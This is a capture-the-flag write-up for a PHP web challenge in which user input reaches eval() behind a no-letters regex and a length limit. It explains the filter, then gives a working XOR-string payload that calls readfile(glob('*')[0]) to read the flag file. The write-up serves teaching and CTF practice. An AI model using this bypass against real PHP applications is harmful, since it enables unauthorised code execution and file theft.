

# Web Warm-up



We are given a link to <http://69.90.132.196:5003/?view-source>

It leads us to a webpage with this content

```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
}
```

## Understanding the problem

The given objective is to read the **flag.php** file. From the source code, it is understandable that the webpage will execute the string provided through the 'warmup' key if it passes through the preg_match and the strlen check.

So we can safely say that we need to read the flag.php file by bypassing the preg_match and strlen check and using the php eval function.

But how do we do this?

First we need to understand what the preg_match check is intending to do.

Upon pasting the provided regex in a regex tester(<https://regexr.com/>) we get to know that the provided regular expression checks for any alphabets present in the provided string(that would be the value of the $_GET['warmup'] parameter in this case).

Lets evaluate the preg_match expression in a php interpreter.

```bash
bash => php -a
Interactive mode enabled

php > echo preg_match('/[A-Za-z]/is', "abcd");
1
php > echo preg_match('/[A-Za-z]/is', "1234");
0
```

So if we want our input to be executed, our input must not contain any alphabets and should be less that 60 characters in length.

## Developing the exploit

[This](https://ctf-wiki.github.io/ctf-wiki/web/php/php/#preg_match-code-execution) link contains some information on preg_match check bypassing. The above reference explains a few things about PHP.

1. XORing strings in PHP

2. '_' variables

3. Calling functions through strings

By understanding these concepts, we can understand that we can construct strings through XORing other strings and call PHP functions through those strings.

The desired function call we would like to make is

```php
eval("readfile('flag.php');")
```

But the above won't work because we cannot construct the '.' character without using any alphabets.

So we have to go for a different approach.

```php
eval("readfile(glob('*')[0])") // Assuming that the flag.php is the first file in the directory.
```

Since the function names 'readfile' and 'glob' are the ones containing alphabets, lets construct them by XORing 2 strings which do not contain alphabets.

```php
// ^ stands for XOR
$_="@:>;963:"^"2_______"; // readfile
$__="____"^"830="; // glob
$_($__('*')[0]); // readfile(glob('*'))
```

The final exploit is

```php
$_="@:>;963:"^"2_______";$__="____"^"830=";$_($__('*')[0]);
```

By urlencoding this payload and adding it in the request to the website gives us the flag.


## References

1. <https://ctf-wiki.github.io/ctf-wiki/web/php/php/#preg_match-code-execution>
